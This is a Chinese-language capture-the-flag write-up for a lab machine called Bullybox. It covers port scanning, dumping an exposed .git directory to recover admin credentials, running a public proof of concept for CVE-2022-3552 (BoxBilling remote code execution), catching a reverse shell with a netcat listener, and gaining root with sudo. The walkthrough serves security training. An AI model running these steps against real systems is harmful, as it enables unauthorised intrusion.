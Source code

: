 ```yaml
---
description: Easy - Linux / BoxBilling 4.22.1.5 / CVE-2022-3552 / sudo su提权
---
```


# ✔️ Bullybox

## 建立立足点

### 信息收集

* 使用Nmap对目标系统的开放端口进行扫描，获取到2个开放端口：22和80

```bash
nmap -sC -sV -p- -oA bullybox 192.168.149.27 --open
```

<figure><img src="../../.gitbook/assets/1 (1).png" alt=""><figcaption></figcaption></figure>

* 将域名添加到hosts文件中：

```bash
echo "192.168.149.27   bullybox.local" | tee -a /etc/hosts
```

* 检查/robots.txt文件，发现一些隐藏目录，依次查看没有任何收获：

<figure><img src="../../.gitbook/assets/2 (1).png" alt=""><figcaption></figcaption></figure>

* 在80端口的登录界面进行注册：

```
- test@test.com
- fiii : Test123456
```

<figure><img src="../../.gitbook/assets/3 (1).png" alt=""><figcaption></figcaption></figure>

* 登录后并没有任何发现，只得知当前系统使用的是boxbilling程序：

<figure><img src="../../.gitbook/assets/4 (1).png" alt=""><figcaption></figcaption></figure>

* 枚举80端口上的隐藏文件/目录，这里发现一些/.git目录：

```bash
gobuster dir -u http://bullybox.local -w /usr/share/seclists/Discovery/Web-Content/common.txt
```

<figure><img src="../../.gitbook/assets/5 (2).png" alt=""><figcaption></figcaption></figure>

* 使用git-dumper提取目标网站的git中的内容：

```bash
git-dumper http://bullybox.local/.git .
```

<figure><img src="../../.gitbook/assets/6 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/7 .png" alt=""><figcaption></figcaption></figure>

* 在提取出来的文件中，**bb-config.php**中发现管理员凭证：

```
- **admin ：Playing-Unstylish7-Provided**
- admin@bullybox.local
```

<figure><img src="../../.gitbook/assets/8 (1).png" alt=""><figcaption></figcaption></figure>

* 使用该有效凭证进入admin的管理界面后，获取到当前运行的软件BoxBilling及其版本号：**BoxBilling 4.22.1.5**

<figure><img src="../../.gitbook/assets/9 .png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/10 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/11 (1).png" alt=""><figcaption></figcaption></figure>

### 漏洞查阅

* 根据应用及其版本号，查询到公开漏洞：CVE-2022-3552
* BoxBilling<=4.22.1.5 - Remote Code Execution

<figure><img src="../../.gitbook/assets/13 (1).png" alt=""><figcaption></figcaption></figure>

* [https://www.exploit-db.com/exploits/51108](https://www.exploit-db.com/exploits/51108)

<figure><img src="../../.gitbook/assets/12 (1).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

* 在GitHub上找到了相关PoC：

<figure><img src="../../.gitbook/assets/17.png" alt=""><figcaption></figcaption></figure>

### Get Shell

* 修改脚本并利用：

```bash
python3 cve-2022-3552.py -d http://bullybox.local/ -u 'admin@bullybox.local' -p 'Playing-Unstylish7-Provided'

nc -lvnp 4444
```

<figure><img src="../../.gitbook/assets/14.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/15.png" alt=""><figcaption></figcaption></figure>

## 权限提升

### ROOT

* 直接切换至root用户：

```bash
sudo su
```

<figure><img src="../../.gitbook/assets/16.png" alt=""><figcaption></figcaption></figure>
